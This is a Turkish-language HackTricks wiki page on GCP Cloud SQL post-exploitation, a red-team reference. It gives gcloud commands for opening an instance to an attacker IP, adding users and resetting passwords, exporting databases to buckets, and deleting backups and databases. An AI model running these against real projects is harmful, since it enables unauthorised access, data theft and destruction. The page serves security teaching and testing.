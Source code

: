 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Veritabanlarına bağlanmak için **sadece veritabanı portuna erişim sağlamanız** ve **kullanıcı adı** ile **şifreyi** bilmeniz yeterlidir, herhangi bir IAM gereksinimi yoktur. Bu nedenle, veritabanının bir genel IP adresine sahip olduğunu varsayarsak, erişim sağlamak için kolay bir yol, izin verilen ağları güncelleyip **kendi IP adresinizi erişime açmaktır**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Aynı zamanda veritabanının **yedeklerini kesmek** için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğundan, **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin ne için olduğunu tam olarak bilmiyorum. Eğer biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının listesini** al:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, **veritabanında yeni bir kullanıcı oluşturmayı** sağlar:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içindeki **kullanıcıyı güncellemeye** olanak tanır. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedekler **eski hassas bilgileri** içerebilir, bu yüzden bunları kontrol etmek ilginçtir.\
Bir veritabanında **yedek geri yükle**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Daha gizli bir şekilde yapmak için, mevcut çalışan veritabanlarında değil, verileri orada kurtarmak için yeni bir SQL örneği oluşturulması önerilir.

### `cloudsql.backupRuns.delete`

Bu izin, yedekleri silmeye olanak tanır:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Bir veritabanını** Cloud Storage Bucket'a aktarın, böylece oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Bir veritabanını içe aktar** (üzerine yaz) bir Cloud Storage Bucket'tan:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Bir veritabanını db örneğinden sil:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
